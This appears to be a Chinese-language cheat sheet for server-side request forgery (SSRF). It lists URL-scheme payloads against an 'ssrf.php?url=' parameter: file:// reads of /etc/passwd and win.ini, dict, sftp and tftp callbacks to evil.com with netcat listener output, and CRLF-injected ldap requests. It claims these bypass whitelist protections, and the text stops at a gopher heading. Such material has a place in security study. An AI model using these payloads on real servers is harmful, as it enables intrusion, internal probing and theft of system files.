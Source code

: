 #### 1、file

```
这种URL Schema可以尝试从文件系统中获取文件：

http://example.com/ssrf.php?url=file:///etc/passwdhttp://example.com/ssrf.php?url=file:///C:/Windows/win.ini

如果该服务器阻止对外部站点发送HTTP请求，或启用了白名单防护机制，只需使用如下所示的URL Schema就可以绕过这些限制：
```

#### 2、dict

```
这种URL Scheme能够引用允许通过DICT协议使用的定义或单词列表：

http://example.com/ssrf.php?dict://evil.com:1337/
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*]
accepted (family 2, sport 31126)CLIENT libcurl 7.40.0
```

#### 3、sftp

```
	在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作。

http://example.com/ssrf.php?url=sftp://evil.com:1337/
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*]
accepted (family 2, sport 37146)SSH-2.0-libssh2_1.4.2
```

#### 4、ldap://或ldaps:// 或ldapi://

```
LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。

http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
```

#### 5、tftp://

```
TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。

http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET
evil.com:# nc -lvup 1337
Listening on [0.0.0.0] (family 0, port1337)TESTUDPPACKEToctettsize0blksize512timeout3
```

#### 6、gopher://
